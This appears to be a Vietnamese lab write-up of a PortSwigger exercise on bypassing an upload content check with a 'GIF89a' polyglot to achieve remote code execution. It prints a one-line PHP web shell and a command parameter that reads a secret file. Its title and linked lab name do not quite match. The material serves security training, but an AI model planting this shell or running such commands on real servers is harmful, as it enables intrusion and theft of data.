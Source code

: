 ## 1. Thông tin bài lab
- Tên lab: **Web shell upload via obfuscated file extension**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.

![img1](./img/lab1/img1.png)

- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.

![img2](./img/lab1/img2.png)

**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên _test.php_ với nội dung `<?php phpinfo(); ?>` và upload lên server.
-	Server thông báo file upload không phải là file ảnh hợp lệ

img

- Thử đổi filename thành **test.png** và để `Content-Type: image/png` đồng thời giữ nguyên nội dung -> Server vẫn thông báo file upload không phải là file ảnh hợp lệ.

img

- Có vẻ như server đã kiểm tra nội dung file để xác định xem file upload có phải là file ảnh không?
**Kiểm tra giả thuyết**
- Thử upload file chứa mã PHP và chứa giá trị `GIF89a`, đây là signature(chữ ký định dạng) nằm ở phần đầu tiên của một file ảnh định dạng GIF.

img

- Upload file thành công và mã PHP được thực thi

img
img

## 3. Tiến hành khai thác
- Upload file **shell.php** để thực hiện đọc tệp tin bí mật với nội dung:
```
GIF89a
<?php system($_GET['x']) ?>
```
img
img

- Truyền tham số *'x'* để đọc nội dung tệp tin bí mật `x=cat%20/home/carlos/secret`

img

